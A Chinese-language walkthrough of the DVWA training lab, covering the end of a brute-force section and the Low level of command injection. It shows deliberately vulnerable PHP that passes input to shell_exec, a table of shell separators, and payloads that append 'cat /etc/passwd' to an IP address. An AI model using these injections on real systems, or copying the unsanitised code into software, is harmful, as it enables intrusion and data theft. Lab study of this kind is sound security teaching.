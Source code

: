 ```php
    $data->bindParam( ':user', $user, PDO::PARAM_STR );
    $data->execute();
```

这里登录方式从 GET 方式转变成了 POST 方式了，不仅和 high 级别那样需要验证 token，而且还设置的登录失败的次数，如果登录失败超过 3 次，那么账户被锁定，只有 15 分钟可以再进行尝试，有点变态啊！！！ 爆破党的克星，祝好！

# Command Injection 命令注入

用户可以执行恶意代码语句，在实战中危害比较高，也称作命令执行，一般属于高危漏洞。

## Low

```php
// 获取 ip
$target = $_REQUEST[ 'ip' ];

// 判断操作系统来细化 ping 命令
if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
  // Windows
  $cmd = shell_exec( 'ping  ' . $target );
}
else {
  // *nix 需要手动指定 ping 命令的次数
  $cmd = shell_exec( 'ping  -c 4 ' . $target );
}

// 输出命令执行的结果
echo "<pre>{$cmd}</pre>"; 
```

Low 级别这里直接将 target 变量给带入到 shell_exec 命令执行的函数里面了，这样是及其危险的，可以使用使用如下命令连接符号来拼接自己的命令：

| 符号   | 说明                                                         |
| :----- | :----------------------------------------------------------- |
| A;B    | A 不论正确与否都会执行 B 命令                                |
| A&B    | A 后台运行，A 和 B 同时执行                                  |
| A&&B   | A 执行成功时候才会执行 B 命令                                |
| A\|B   | A 执行的输出结果，作为 B 命令的参数，A 不论正确与否都会执行 B 命令 |
| A\|\|B | A 执行失败后才会执行 B 命令                                  |

所以这一个基础关卡我们可以尝试输入如下 Payload：

```bash
127.0.0.1 ; cat /etc/passwd
127.0.0.1 & cat /etc/passwd
127.0.0.1 && cat /etc/passwd
127.0.0.1 | cat /etc/passwd
233 || cat /etc/passwd
```
